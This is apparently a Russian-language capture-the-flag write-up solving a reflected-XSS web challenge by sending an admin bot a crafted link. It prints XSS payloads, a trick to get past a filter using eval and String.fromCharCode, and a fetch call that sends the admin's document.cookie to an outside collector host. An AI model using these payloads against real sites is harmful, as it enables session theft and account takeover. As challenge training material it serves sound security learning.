 Переходим на сайт и видим поле ввода, пробуем ввести что-то, тыкаем ссылочки и понимаем что текст просто кодируется с помощью RLE:

![](https://storage.geekclass.ru/images/8e8ebe8c-c509-4f85-8f78-b71592af9583.png)

Больше вроде ничего интересного, хотя замечаем, что можем отправить ссылку на страницу администратору. Это наводит нас о мысли об XSS, а точнее о его самом распространненом варианте - [reflected XSS](https://owasp.org/www-community/attacks/xss/).

Внимательно посмотрев как отображается введеный текст, понимаем, что специальные символы - <'>" не экранируются. В итоге находим способ встроить произвольный html код:

`"><script>alert('wow, xss')</script>`

И ожидаемо получаем alert:

![](https://storage.geekclass.ru/images/caee4fbc-9fe8-4aa4-8c1d-d76cf41fa499.png)

Попробуем получить отстук к себе, это можно сделать либо имея свой сервер, либо воспользовавшись сервисом по примеру `https://requestbin.com`. В результате безуспешных попыток, понимаем, что сайт фильтрует символ точки и слово `document`. Чтобы обойти данные ограничения используем `eval`, например один из способов:

`"><script>eval(String['fromCharCode'](102,101,116,...))</script>`, где закодированный в аски коды `(102,101,116,...)` пейлоад что-то вроде 
`fetch('http://https://our.domain.pipedream.net/?c=' + document['cookie']` (пытаемся заодно украсть cookie администратора)

Сначала пробуем данный пейлоад у себя и проверяем, что он действительно работает. Убедившись, посылаем ссылку с данным пейлоадом администратору(робот на сервере послушно перейдет по ссылке) и находим флаг в его куках:

![](https://storage.geekclass.ru/images/c16a2d4a-9c5e-4bb0-9a4e-fc5e11cb93a1.png)

P.S в ближайшем времени я планирую опубликовать код данного задания у [себя на гитхабе](https://github.com/leshark), кому интересно - подписывайтесь)